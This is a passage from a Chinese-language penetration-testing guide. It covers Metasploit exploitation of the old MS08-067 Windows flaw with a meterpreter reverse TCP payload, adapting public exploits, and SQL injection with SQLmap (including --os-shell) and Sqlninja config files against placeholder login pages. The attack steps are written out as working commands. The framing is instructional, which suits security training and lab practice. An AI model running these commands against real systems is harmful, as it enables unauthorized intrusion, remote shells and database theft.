我知道 MS08-067 漏洞非常古老，但我不仅仍然时不时发现这些漏洞，而且与其他远程攻击相比，该攻击极其稳定。对于从未尝试过 MS08-067 漏洞的人，我强烈建议搭建一个带有旧版未打补丁 Windows XP 系统的实验室，并尝试这个确切的示例。如果你是 MS08-067 专家，可以跳过这个简短的部分。

*   在 Kali 上进入 Metasploit
    *   打开终端并输入：`msfconsole`
*   要搜索漏洞，请输入：
    *   `search ms08-067`



Figure 26 - MS08-067 Metasploit Example

要通过 MS08-067 漏洞利用系统：

*   从搜索结果中选择漏洞利用代码，输入：
    *   `use exploit/windows/smb/ms08_067_netapi`
*   查看漏洞利用代码工作所需的选项，输入：
    *   `show options`
*   设置 IP 信息，输入：
    *   `set RHOST [IP of vulnerable Windows host]`
    *   `set LHOST [IP of your machine]`
*   选择要使用的载荷和编码器，输入：
    *   `set PAYLOAD windows/meterpreter/reverse_tcp`
    *   `set ENCODER x86/shikata_ga_nai`
*   运行攻击，输入：
    *   `exploit`



Figure 27 - MS08-067 Example

在绕过 AV 部分，我将向你展示如何创建能够绕过杀毒软件检测的 Meterpreter 反向 TCP 载荷。不再需要使用 Shikata ga nai 并祈祷杀毒软件不会检测到载荷。


我有无数次经历：为漏洞找到了 Metasploit 中没有的漏洞利用代码。通常基于横幅抓取脚本的版本号搜索漏洞，我会在其他地方找到漏洞利用代码（查找漏洞利用代码部分）。很多时候，这些脚本/代码是用 Python、C++、Ruby、Perl、Bash 或其他类型的脚本语言编写的。

作为一名渗透测试人员，你需要熟悉如何编辑、修改、执行和理解这些代码，无论语言是什么，并能够理解漏洞利用代码为什么有效。我**不建议**你在未测试的情况下执行任何脚本。我诚实地在论坛和 Exploit-DB 上见过一些脚本，其中的 Shellcode 载荷实际上会对目标系统造成损害。脚本利用漏洞后，载荷会删除易受攻击主机上的所有内容。我相当确定，如果客户的主机系统上的所有内容都被清空，客户不会太高兴。这就是为什么你应该始终使用自己的 Shellcode，或验证脚本中的 Shellcode。


假设你发现了一个运行着易受攻击版本的 WarFTP 服务器，并在互联网上找到了一些代码（例如：[`downloads.securityfocus.com/vulnerabilities/exploits/22944.py`](http://downloads.securityfocus.com/vulnerabilities/exploits/22944.py)）。你可能需要了解的事项：

*   如何运行该漏洞利用代码？它是什么语言？你需要编译它吗？还是需要导入任何库？
*   该漏洞利用代码运行是否需要任何依赖项？Windows 或 Linux 的版本？DEP 或 ASLR？
*   EIP 地址或任何其他寄存器或填充值是否硬编码为特定版本？它们是否需要修改？
*   该漏洞利用代码会导致服务宕机吗？你只有一次机会攻陷主机？这非常重要，因为你可能需要与客户合作或测试类似的基础设施环境。

下面是一个脚本可能的样子示例，如果运行得当，可能允许在受害者服务器上获得 Shell 访问权限。



Figure 28 - Example Exploit

即使是 MS08-067，漏洞利用代码也依赖于操作系统和 Service Pack。幸运的是，该载荷会在利用主机之前尝试识别合适的操作系统。许多用脚本语言编写的漏洞利用代码并不考虑这些因素，而是为单一操作系统类型开发的。这就是为什么你经常会看到漏洞利用代码包含有关其测试系统的信息。即使在同一个操作系统内，操作系统的语言等因素也可能导致漏洞利用失败或造成拒绝服务。例如，下面的 PCMAN FTP 缓冲区溢出漏洞利用代码仅在法语版 Windows 7 SP1 上测试过。这不能保证该漏洞利用代码在英文版上也能成功。



Figure 29 - FTP Exploit Example Script^(6)

这就是为什么我强烈建议你在尝试任何生产主机之前，理解并测试你所有的漏洞利用代码，并根据需要修改脚本。


## 从扫描结果到漏洞利用：基线概述

本章概述如何将扫描器的发现转化为实际行动，这些示例将引导读者了解后续章节中如何利用系统漏洞。攻击和漏洞利用并非总能奏效，因此我强调学生不应依赖工具。更重要的是理解攻击**为何**奏效以及底层问题是什么，这样当工具失效时，你才有能力修改和修复漏洞利用代码。

对我学习计算机漏洞利用帮助最大的方法，是从 [Exploit-DB](http://www.exploit-db.com/remote/) 等网站获取漏洞利用代码，并用我选择的另一种高级脚本语言重写它们。开发此类脚本并针对自己的服务器进行测试，将极大地增强你的编程背景，并加深对漏洞原理的理解。如果你想深入钻研漏洞利用开发，强烈推荐阅读《The Shellcoder's Handbook》：[`amzn.to/19ZlgfE`](http://amzn.to/19ZlgfE)。


此时，你已完成目标评估、制定攻击计划，现在是利用 Web 漏洞的时候了。本书这一部分将深入探讨如何将 Web 应用扫描和手工测试的发现转化为系统沦陷。


Web 应用测试部分涵盖的主题包括：SQL 注入（SQLi）、跨站脚本（XSS）、跨站请求伪造（CSRF）、会话令牌熵、模糊测试/输入验证以及业务逻辑。虽然这些不是所有的测试类型，但它们通常能发现导致用户群、应用或系统沦陷的主要漏洞。这也将为学习其他类型的 Web 攻击打下良好基础。

对于更深入的、针对特定应用的测试框架（相较于网络风格测试），你应非常熟悉 OWASP 测试指南：[`bit.ly/19GkG5R`](http://bit.ly/19GkG5R) 以及《The Web Application Hacker's Handbook》：[`amzn.to/1lxZaCv`](http://amzn.to/1lxZaCv)。


通过扫描结果或手工探测，你可能会发现一些 SQL 注入（SQLi）漏洞。这非常关键，因为 SQLi 可能导致数据库甚至整个系统完全沦陷。我发现两款开源工具在大多数情况下效果最好：`SQLmap` 和 `Sqlninja`。让我们从识别到利用完整走一遍流程。

如果你在之前的 Web 应用扫描部分通过 `Burp Suite` 发现 SQL 注入，在扫描器结果标签页中通常如下图所示（图 30）。



**图 30 - Burp SQL 注入发现**

使用 `Burp` 的一大优势是它提供发现结果的置信度评级，帮助判断是真实漏洞还是潜在误报。在该例（图 30）中，`Burp` 的置信度为“Certain”，且易受攻击的参数为 `Password`、`Username` 和 `User-Agent` 字段。

### SQLmap ([`sqlmap.org/`](http://sqlmap.org/)) (Kali Linux)

`SQLmap` 是我最喜欢的工具之一，用于发现 SQL 注入、操纵数据库查询和导出数据库。它还具备通过注入获取交互式 Shell 的额外功能，甚至能反弹 `Meterpreter` 或 `VNC` 会话。

以下示例将展示 `SQLmap` 针对 `GET` 参数和 `POST` 参数的用法，因为它们是最常见的 SQLi 类型。之所以演示两种 HTTP 方法，是因为如果请求配置不当，攻击极大概率会失败。

以下是 `SQLmap` 的帮助信息，包含大量可用于 SQLi 攻击的开关：`sqlmap -h`



**图 31 - SQLMap 帮助信息**

#### GET 参数示例

以下示例假设 SQLi 漏洞位于 URL 的 GET 参数中。我们要测试每个参数，确保 SQLi 漏洞确属实。我见过扫描工具有不少误报，因此验证是确保发现有效的唯一途径。请注意，若未指定测试值，`SQLmap` 默认会测试所有参数。

**验证 SQL 注入是否有效（若有效将返回 Banner 信息）：**

```bash
sqlmap -u "http://site.com/info.php?user=test&pass=test" -b
```

**获取数据库用户名：**

```bash
sqlmap -u "http://site.com/info.php?user=test&pass=test" --current-user
```

**交互式 Shell：**

```bash
sqlmap -u "http://site.com/info.php?user=test&pass=test" --os-shell
```

**提示与技巧：**

*   可能需要指定数据库类型。若认为存在注入但 `SQLmap` 未发现，尝试设置 `--dbms=[database type]` 标志。
*   若需测试需认证的 SQL 注入，通过浏览器登录网站并获取 Cookie（可直接从 `Burp Suite` 获取），然后使用 `--cookie=[COOKIE]` 开关定义 Cookie。
*   卡住了？尝试命令：`sqlmap --wizard`

#### POST 参数示例

POST 示例模仿 GET 注入，区别在于易受攻击参数的传递方式。POST 参数不在 URL 中，而是在数据段传递。这常见于用户名和密码，因为 Web 服务器通常记录 GET 参数，不应记录密码。此外，GET 方法有大小限制，因此大型应用常通过 POST 参数传递大量数据。

**验证 SQL 注入是否有效（若有效将返回 Banner 信息）：**

```bash
sqlmap -u "http://site.com/info.php" --data="user=test&pass=test" -b
```

**获取数据库用户名：**

```bash
sqlmap -u "http://site.com/info.php" --data="user=test&pass=test" --current-user
```

**交互式 Shell：**

```bash
sqlmap -u "http://site.com/info.php" --data="user=test&pass=test" --os-shell
```

若能获得 `os-shell` 访问权限，你将拥有数据库用户的完整命令行访问权。下例中，我发现一个 SQLi 漏洞，获取 `os-shell` 并执行了 `ipconfig` 命令。



**图 32 - SQLMap 命令 Shell**

建议花时间熟悉运行不同 SQLi 命令并尝试帮助文件中列出的各种开关。若 `SQLmap` 失败，可能是配置问题，请务必尝试使用向导设置。

### Sqlninja ([`sqlninja.sourceforge.net/`](http://sqlninja.sourceforge.net/)) (Kali Linux)

`Sqlninja` 是另一款优秀的 SQL 注入工具，擅长上传 Shell 和规避网络 IDS 系统。你可能会问：既然已熟练掌握 `SQLmap`，为何还要用 `Sqlninja`？凭借多年经验，我见过大量测试仅能用两者之一检测出 SQLi。这可能源于盲注检测方式、二进制上传机制、IPS 签名仅识别某工具、或 Cookie 处理方式的差异。变量太多，明智做法是始终用多工具交叉验证。

使用 `-h` 开关查看帮助文件，可见 `Sqlninja` 的所有功能。



**图 33 - Sqlninja 帮助页面**

`Sqlninja` 唯一的问题是配置文件设置较难，且我从未找到优秀易读的文档。因此我将给出与 `SQLmap` 类似的两个示例。


在 Sqlninja 中，你需要使用 `__SQL2INJECT__` 命令定义要注入的易受攻击变量。这与 SQLmap 不同，在 SQLmap 中我们不需要指定要测试的字段。让我们通过几个例子来了解，这会让事情更加清晰。在使用 Sqlninja 之前，我们需要定义 SQL 配置文件。该文件将包含关于 URL、HTTP 方法类型、会话 Cookie 和浏览器代理的所有信息。

让我向你展示获取 Sqlninja 所需信息的最简单方法。和之前一样，启动 Burp Suite 并在传递易受攻击字段的请求上开启代理拦截。在下面的例子中，我们将捕获发送到 `/wfLogin.aspx` 的请求并识别 POST 参数值。这将包含 Sqlninja 注入所需的大部分信息，但需要根据 Burp 原始请求进行细微修改。

让我们看看 Burp 中识别出潜在 SQLi 漏洞的请求之一。



Figure 34 - Burp 请求示例

在接下来的两个例子中，你将看到如何创建最常见的 GET 和 POST 参数。这可用于任何不同类型的 HTTP 方法，但通常会使用 POST 和 GET 方法。

从原始 Burp 请求与其在 Sqlninja 配置文件中的录入方式对比，有几点需要注意：

*   HTTP 方法（GET/POST）需要修改为包含完整 URL。Burp 请求中 `/wfLogin.aspx` 前面缺少 `http://site.com`。
*   你必须通过添加 `__SQL2INJECT__` 字符串来定义要模糊测试的参数。
*   有时为了 Sqlninja 攻击，你可能需要先尝试关闭易受攻击的 SQL 参数。这可以通过单引号、双引号或分号来完成。

#### GET 参数示例

我们将把包含两个易受攻击参数的 `sql_get.conf` 配置文件写入 Kali 桌面。Sqlninja 将尝试攻击 `user` 和 `pass` 字段，并尝试验证它们是否易受攻击。要在终端中创建/修改配置文件，请输入：

*   `gedit ~/Desktop/sql_get.conf`
*   将以下内容输入配置文件并保存：

```
—httprequest_start—
GET http://site.com/wfLogin.aspx?user=test’;__SQL2INJECT__&pass=test’;__SQL2INJECT__HTTP/1.0
Host: site.com
User-Agent: Mozilla/5.0 (X11; U; en-US; rv:1.7.13) Gecko/20060418 Firefox/1.0.8
Accept: text/xml, application/xml, text/html; q=0.9, text/plain; q=0.8, image/png,*/*
Accept-Language: en-us, en; q=0.7, it;q=0.3
Accept-Charset: ISO-8859-15, utf-8; q=0.7,*;q=0.7
Content-Type: application/x-www-form-urlencoded
Cookie: ASPSESSIONID=3dkDjb3jasfwefJGd
Connection: close
—httprequest_end—
```

#### POST 参数示例

POST 请求与 GET 请求的区别在于参数是在数据部分传递，而不是作为 URL 的一部分。在终端中我们需要创建配置文件并修改要注入的参数。在本例中，我们将注入 `username` 和 `password` 两个字段：

*   `gedit ~/Desktop/sql_post.conf`
*   将以下内容输入配置文件并保存：

```
—httprequest_start—
POST http://site.com/wflogin.aspx HTTP/1.0
Host: site.com
User-Agent: Mozilla/5.0 (X11; U; en-US; rv:1.7.13) Gecko/20060418 Firefox/1.0.8
Accept: text/xml, application/xml, text/html; q=0.9, text/plain; q=0.8, image/png, */*
Accept-Language: en-us, en; q=0.7, it;q=0.3
Accept-Charset: ISO-8859-15, utf-8; q=0.7,*;q=0.7
Content-Type: application/x-www-form-urlencoded
Cookie: ASPSESSIONID=3dkDjb3jasfwefJGd
Connection: close
username=test’;__SQL2INJECT__&password=test’;__SQL2INJECT__
—httprequest_end—
```

#### 执行 Sqlninja

无论你使用 GET 还是 POST 方法攻击，执行攻击的命令都是相同的。现在我们已经创建了配置文件，可以使用以下命令运行 Sqlninja：

*   `sqlninja -mt -f sql_get.conf`

以下命令表示使用测试模式运行 Sqlninja，查看注入是否适用于我们刚创建的配置文件。如果你幸运地发现了一个有效的 SQL 注入，就可以开始攻击数据库。在下面的例子中，我们将利用数据库，查找版本，检查我们是否为拥有管理权限的 "sa" 账户，并查看是否有 Shell 访问权限。

